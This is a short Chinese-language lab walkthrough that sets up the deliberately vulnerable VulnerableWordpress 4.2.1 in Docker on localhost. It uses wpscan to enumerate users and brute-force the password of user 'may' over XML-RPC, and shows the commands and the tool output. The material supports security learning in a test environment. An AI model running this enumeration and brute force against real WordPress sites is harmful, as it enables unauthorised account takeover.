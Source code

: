 环境使用 wpscan 开发团队提供的 VulnerableWordpress 进行部署 版本为 4.2.1

```bash
-> git clone https://github.com/wpscanteam/VulnerableWordpress.git
-> cd VulnerableWordpress/
-> docker build --rm -t wpscan/vulnerablewordpress .\
-> docker run --name vulnerablewordpress -d -p 81:80 -p 3307:3306 wpscan/vulnerablewordpress
```

访问 127.0.0.1:81 初始化过程略  
[![](assets/1706513536-aa683d97acbf8695de333be9382bf913.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705136492103-8bcfbf42-404c-4a79-8b0f-f17cd656807f.png#averageHue=%23dfdfdf&clientId=uad14354d-ef7d-4&from=paste&height=836&id=u635ac550&originHeight=1672&originWidth=3078&originalType=binary&ratio=2&rotation=0&showTitle=false&size=284245&status=done&style=none&taskId=uf17d4505-1056-413b-8354-087a3dc7c73&title=&width=1539)  
使用 wpscan 进行用户枚举

```bash
-> wpscan --url http://localhost:81/ --enumerate
[i] User(s) Identified:

[+] may
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

获得用户名 may，爆破密码

```bash
[+] Performing password attack on Xmlrpc Multicall against 1 user/s
Progress Time: 00:00:00 <===========================================================================================================> (0 / 0) 100.0% Time: 00:00:00
WARNING: Your progress bar is currently at 0 out of 0 and cannot be incremented. In v2.0.0 this will become a ProgressBar::InvalidProgressError.
Progress Time: 00:00:00 <===========================================================================================================> (0 / 0) 100.0% Time: 00:00:00
[SUCCESS] - may / 123456
All Found
```
